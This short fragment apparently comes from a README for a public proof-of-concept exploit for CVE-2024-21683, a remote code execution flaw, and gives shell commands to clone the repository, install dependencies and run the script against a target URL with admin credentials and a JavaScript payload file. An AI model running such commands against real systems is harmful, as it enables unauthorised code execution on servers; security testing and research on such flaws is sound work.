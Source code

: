 git clone https://github.com/W01fh4cker/CVE-2024-21683-RCE
cd CVE-2024-21683-RCE
pip install requests bs4
python CVE-2024-21683.py -u http://192.168.198.1:8090 -au admin -ap admin -f exploit.js -n test -p http://127.0.0.1:8083
